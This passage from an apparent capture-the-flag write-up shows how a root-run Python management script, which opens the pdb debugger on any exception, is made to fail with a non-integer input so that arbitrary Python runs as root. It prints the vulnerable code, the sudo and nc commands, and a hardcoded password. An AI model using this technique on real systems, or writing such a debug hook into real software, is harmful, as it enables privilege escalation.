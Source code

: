     [1] View processes
    [2] View free memory
    [3] View listening sockets
    [4] Quit
    4
    Bye



### Exploit

The problem in this script is in how it handles errors. There's an
`except` block for any exception that calls the Python Debugger, `pdb`:



    except Exception as e:
        print(e)
        pdb.post_mortem(e.__traceback__)



`pdb` is great, but it will allow the user interacting with it to run
arbitrary Python commands. So if I can make the script throw an
exception, I can run commands as root.

The obvious place to generate an exception is here:



    option = int(clientsock.recv(1024).strip())



My input is passed to `int()`. If I give it something that isn't an
integer, Python will raise a `ValueError` exception.

I'll start the listener again as root:



    user@forge:~$ sudo /usr/bin/python3 /opt/remote-manage.py
    Listening on localhost:11563



Now I'll connect, give the password, and give a non-integer as the menu
option:



    user@forge:~$ nc 127.0.0.1 11563
    Enter the secret passsword: secretadminpassword
    Welcome admin!

    What do you wanna do: 
    [1] View processes
    [2] View free memory
    [3] View listening sockets
    [4] Quit
    0xdf



